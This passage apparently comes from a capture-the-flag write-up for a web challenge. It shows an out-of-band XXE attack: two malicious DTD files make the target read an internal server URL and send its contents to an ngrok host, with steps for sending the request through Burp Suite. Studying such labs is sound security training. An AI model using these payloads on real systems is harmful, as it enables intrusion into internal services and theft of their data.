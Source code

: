 The malicious dtd file should look like this: 

```xml
<!ENTITY % file SYSTEM "http://secret_server/">
<!ENTITY % eval "<!ENTITY exfiltrate SYSTEM 'http://275d42ab779c.ngrok.io/?x=%file;'>">
%eval;
%exfiltrate;
```

*You will need to replace the ngrok address with whatever address you are assigned*

The first line defines the internal server that we want the web server to reach out to. The rest of the file servers as a way to execute that request to the internal server. 

Now it is time to execute the exploit, hit send in Burp Suite in the Repater tab and send the maliciously crafted request to the web server. 

The response given should look like: 

![Web 500](images/web500-5.png)

Examining this response we can see that our exploit was successful. The second Warning returned an URI with the contents of `http://secret_server/` in it. However, this does not give us the data we need, as the flag is not in here. It can be seen that there is a `alt="[DIR]"></td><td><a href="data/">` in the URI. This tells us that the internal server had directory listing enabled and that `data` is a directory on the internal server. 

Lets change our dtd to grab the contents of that directory: 

```xml
 <!ENTITY % file SYSTEM "http://secret_server/data">
 <!ENTITY % eval "<!ENTITY exfiltrate SYSTEM 'http://275d42ab779c.ngrok.io/?x=%file;'>">
 %eval;
 %exfiltrate;
 ```
 Now resend the malicious request: 
